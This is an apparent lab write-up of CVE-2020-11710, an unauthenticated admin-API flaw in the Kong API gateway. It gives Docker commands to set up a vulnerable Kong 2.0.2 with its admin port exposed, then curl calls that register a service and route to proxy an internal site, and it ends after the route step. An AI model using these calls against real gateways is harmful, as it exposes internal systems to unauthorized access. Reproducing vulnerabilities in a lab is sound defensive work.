




# Unauthorized Access Vulnerability in Kong

## Vulnerability Description

The unauthorized access vulnerability (CVE-2020-11710) in Kong refers to the existence of an unauthorized access vulnerability in the Kong API gateway system, where an attacker can exploit this vulnerability to obtain or modify administrator credentials, read any file, and remotely execute any code. This vulnerability occurs due to the lack of strict validation of requests in the Kong API gateway system.

## Affected Versions

Kong < V2.0.3

## Setting Up the Environment

Create a Docker network

```
[root@localhost ~]# docker network create kong-net
8c13241e04425db93e67c0c69c1adb7ca8adcb2701d67b43f2c20f4e76b9d613
```

Pull and start the PostgreSQL container

```
docker run -d  --network=kong-net  -p 5432:5432 -e "POSTGRES_USER=kong"   -e "POSTGRES_DB=kong"  -e "POSTGRES_PASSWORD=kong"  postgres:9.6
```

After the database is installed, enter the postgres container, create the kong user and the kong database

```
docker exec -it container_id /bin/bash
#switch user
su postgres
#enter command
psql;
#create user kong and password
create user kong with password 'kong';
#create database kong
create database kong owner kong;
#view created databases (optional)
\l
```

Initialize the database

```
docker run --rm \
     --network=kong-net \
     -e "KONG_DATABASE=postgres" \
     -e "KONG_PG_HOST=kong-database" \
     -e "KONG_PG_USER=kong" \
     -e "KONG_PG_PASSWORD=kong" \
     -e "KONG_CASSANDRA_CONTACT_POINTS=kong-database" \
     kong:2.0.2 kong migrations bootstrap
```

Start Kong

```
docker run -it  \
     --network=kong-net \
     -e "KONG_DATABASE=postgres" \
     -e "KONG_PG_HOST=kong-database" \
     -e "KONG_PG_PASSWORD=kong" \
     -e "KONG_CASSANDRA_CONTACT_POINTS=kong-database" \
     -e "KONG_PROXY_ACCESS_LOG=/dev/stdout" \
     -e "KONG_ADMIN_ACCESS_LOG=/dev/stdout" \
     -e "KONG_PROXY_ERROR_LOG=/dev/stderr" \
     -e "KONG_ADMIN_ERROR_LOG=/dev/stderr" \
     -e "KONG_ADMIN_LISTEN=0.0.0.0:8001, 0.0.0.0:8444 ssl" \
     -p 8000:8000 \
     -p 8443:8443 \
     -p 8001:8001 \
     -p 8444:8444 \
     kong:2.0.2
```

## Vulnerability Exploitation

Access [http://192.168.32.130:8000](http://192.168.32.130:8000/)



Use the Admin Restful API to register a new "service" (web API) on the Kong Gateway pointing to the sensitive site on the intranet [http://192.168.32.130:8000](http://192.168.32.130:8000/)

```sh
$ curl -i -X POST http://127.0.0.1:8001/services --data name=target --data url='http://192.168.32.130:8000'
```



Add a route, `paths[]` value is `/site1`, `name` value is `111111`

```
curl -i -X POST http://127.0.0.1:8001/services/target/routes  --data 'paths[]=/site1' --data 'name=111111'
```



